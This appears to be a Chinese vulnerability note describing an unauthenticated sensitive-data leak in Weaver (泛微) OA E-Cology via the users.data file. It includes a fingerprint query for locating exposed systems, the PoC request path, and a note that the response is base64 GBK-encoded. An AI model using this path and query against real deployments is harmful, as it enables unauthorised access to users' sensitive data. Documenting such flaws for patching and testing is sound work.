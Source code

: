 # 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同商务系统"
```

## 漏洞复现

登录页面

![image-20220520134158756](images/202205201341810.png)

验证POC

```
/messager/users.data
```

![image-20220520134209598](images/202205201342693.png)

base64 GBK解码